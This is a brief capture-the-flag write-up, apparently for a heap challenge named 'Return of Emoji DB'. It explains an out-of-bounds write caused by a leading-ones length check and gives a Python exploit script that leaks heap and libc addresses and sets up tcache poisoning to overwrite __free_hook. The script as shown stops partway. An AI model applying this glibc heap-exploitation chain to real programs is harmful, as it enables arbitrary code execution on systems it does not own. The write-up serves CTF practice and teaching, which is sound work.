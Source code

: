 # Return of Emoji DB
The source is also distributed. It seems that the number of consecutive bits from msb of the first byte indicates the number of subsequent bytes.

```c
int count_leading_ones(unsigned char i) {                                      
    int count = 0;                                                             
    while ((i & 0b10000000) > 0) {
        count += 1;
        i = i << 1;
    }
    return count;
}
```

According to this, if the first character is `\xff`, the emoji size will be interpreted as 8 and processed. Since `data` is defined in 4 bytes, the latter 4 bytes can be manipulated. The pointer of `title` follows immediately after `data`, so you can freely point to the inside of the heap.

After making an unsorted bin with free 8 times, point to it using oob writing. Finaly, use a similar technique to create overlap chunks and manipulate tcache to overwrite `__free_hook`.

```python
def a(title, emoji):
        r.sendlineafter('> ', '1')
        r.sendafter(': ', title)
        r.sendafter(': ', emoji)
def s(idx):
        r.sendlineafter('> ', '2')
        r.sendlineafter(': ', str(idx))
def d(idx):
        r.sendlineafter('> ', '3')
        r.sendlineafter(': ', str(idx))
def gc():
        r.sendlineafter('> ', '4')

for i in range(10):
        a(p64(0x21) * (0x78/8), '\xffABC')
s(0)
r.recvuntil('\xffABC')
leak = u32(r.recv(4))
heap = leak - 0x12d0
dbg('heap')

for i in range(1, 9):
        d(i)
gc()

target = heap + 0x1850
a('1111', '\xff222'+p16(target & 0xffff))
s(1)
r.recvuntil('Title: ')
leak = u64(r.recvuntil('\n', True).ljust(8, '\x00'))
dbg('leak')
base = leak - 0x1ebbe0
system = base + 0x55410
fh = base + 0x1eeb28

a(p64(0x091)*(0x78/8), '\xff000')
a(p64(0x091)*(0x78/8), '\xff111'+p16((heap+0x1690) & 0xffff))
a(p64(0x291)*(0x78/8), '\xff222')

d(2)
d(3)
```